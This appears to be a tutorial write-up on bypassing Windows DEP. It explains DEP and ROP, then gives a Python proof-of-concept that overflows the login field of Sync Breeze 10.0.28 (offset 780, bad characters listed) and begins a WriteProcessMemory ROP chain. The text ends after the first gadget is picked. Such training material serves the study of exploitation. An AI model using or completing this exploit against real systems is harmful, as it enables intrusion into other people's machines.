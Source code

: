 ## Bypassing DEP

## What is DEP?

In Windows binary exploitation, **DEP** stands for **Data Execution Prevention**. DEP is a security feature introduced by Microsoft to prevent certain types of exploits, particularly those that attempt to execute code from areas of memory that should only contain data. By marking these areas as non-executable, DEP mitigates risks from buffer overflows and similar memory corruption attacks that often inject malicious code into the stack, heap, or other data sections.

### How DEP Works
1. **Memory Marking**: DEP designates specific memory regions as *non-executable*, so code cannot be executed from these areas. For example:
   - **Stack** and **Heap** regions are typically marked as non-executable.
   - **Code** segments, where legitimate executable code resides, are marked as executable.

2. **Hardware and Software DEP**:
   - **Hardware-enforced DEP**: Uses the CPU’s No-Execute (NX) bit, which marks memory pages as executable or non-executable. This provides robust protection since it leverages CPU hardware.
   - **Software-enforced DEP**: Monitors and prevents certain actions in Windows, but without hardware support, it’s less effective.

### DEP in Exploitation Mitigation
DEP makes it much harder for attackers to execute their payload directly in memory regions meant for data storage. Without DEP, a typical exploit might:
   1. Overflow a buffer on the stack or heap.
   2. Inject malicious code into that area.
   3. Redirect execution to this injected code.

With DEP enabled, the injected code on the stack or heap cannot be executed, as these areas are marked non-executable. This forces attackers to find alternative methods, such as **Return-Oriented Programming (ROP)**, where they use existing executable code snippets to build their payload indirectly.

### Bypassing DEP
While DEP is a strong deterrent, advanced exploit techniques can bypass it:
   - **Return-Oriented Programming (ROP)**: This technique leverages "gadgets"—small instruction sequences ending in a return statement—found in legitimate executable code. By chaining these gadgets, attackers can create complex payloads without needing to inject new executable code.
   - **Memory Corruption in DEP-enabled Code Segments**: If attackers can manipulate function pointers or other control data within executable memory, they may still execute malicious sequences.

### DEP and Exploitation
DEP was a game-changer in making exploits more challenging, especially when combined with other mitigations like **ASLR** (Address Space Layout Randomization). These technologies together increase the difficulty of reliably exploiting vulnerabilities, as they prevent straightforward code injection and make payload development more complex.

## Exploiting Sync Breeze 10.0.28

In this case, we will start by providing an exploit that already includes the offset to reach EIP and the bad characters. This way, we will speed up the process and focus on what’s important.

```py
#!/usr/bin/env python3
import socket, sys
from struct import pack

def exploit():
    try:
        server = sys.argv[1]
        port = 80

        size = 800
        offset = 780

        shellcode = b""
        
        # badchars --> \x00\x0a\x0d\x25\x26\x2b\x3d

        filler = b"A" * offset
        eip = b"B" * 4

        inputBuffer = filler + eip

        content = b"username=" + inputBuffer + b"&password=A"
        buffer = b"POST /login HTTP/1.1\r\n"
        buffer += b"Host: " + server.encode() + b"\r\n"
        buffer += b"Content-Type: application/x-www-form-urlencoded\r\n"
        buffer += b"Content-Length: "+ str(len(content)).encode() + b"\r\n"
        buffer += b"\r\n"
        buffer += content

        with socket.socket(socket.AF_INET, socket.SOCK_STREAM) as s:
            s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
            s.connect((server, port))
            s.send(buffer)
            s.close()
            print(f"[*] Malicious payload sent")
    except Exception as e:
        print(e)

if __name__ == '__main__':
    exploit()

```

If we send the exploit we can see four "B" characters at "eip" register. Now we have to begin with the DEP bypassing.

To bypass DEP, we can use several functions of Windows API like "VirtualAlloc", "VirtualProtect", or "WriteProcessMemory". In this case we have selected the "WriteProcessMemory" way.

### What is WriteProcessMemory?

WriteProcessMemory is a Windows API function used to write data to a specific area of memory in a process running on the Windows operating system.

```
BOOL WriteProcessMemory(
  [in]  HANDLE  hProcess,
  [in]  LPVOID  lpBaseAddress,
  [in]  LPCVOID lpBuffer,
  [in]  SIZE_T  nSize,
  [out] SIZE_T  *lpNumberOfBytesWritten
);

```

We need to push into the stack 7 values: the "WriteProcessMemory" function address, the return address of the function, and the five arguments. For that we will use an skeleton, which are dummy values that are pushed into the stack, then we will modify these values with ROP gadgets, and finally we will call the function with the desired values.

To start with this ROP challenge we have to move the "esp" address to other register to be able to access and modify the values at the stack. The first ROP gadget will be a "push esp" instruction (if it exists). The first step is finding a module in the binary that is not compiled with "ASLR" and that does not have badchars at the address.

![imagen](https://github.com/user-attachments/assets/2ff7392f-af29-4c29-a26d-268b4e43aaad)

Next, we use the following command in WinDbg --> `!nmod`

![imagen](https://github.com/user-attachments/assets/39150fcf-bcf9-4c05-ab7a-c97beb3797c8)

We see that "libspp.dll" is a good candidate, so we are going to use a tool that extracts the gadgets of that module.

![imagen](https://github.com/user-attachments/assets/3135ca51-0736-4036-8930-57925eec0e83)

We find several gadgets:

![imagen](https://github.com/user-attachments/assets/09344cf2-10c8-4535-a1c4-381893f6c442)

The first one has the badchar "0a" so we choose the second one and we add it to the exploit.

![imagen](https://github.com/user-attachments/assets/e3038ebd-c569-406c-837e-4b0e69cf6963)


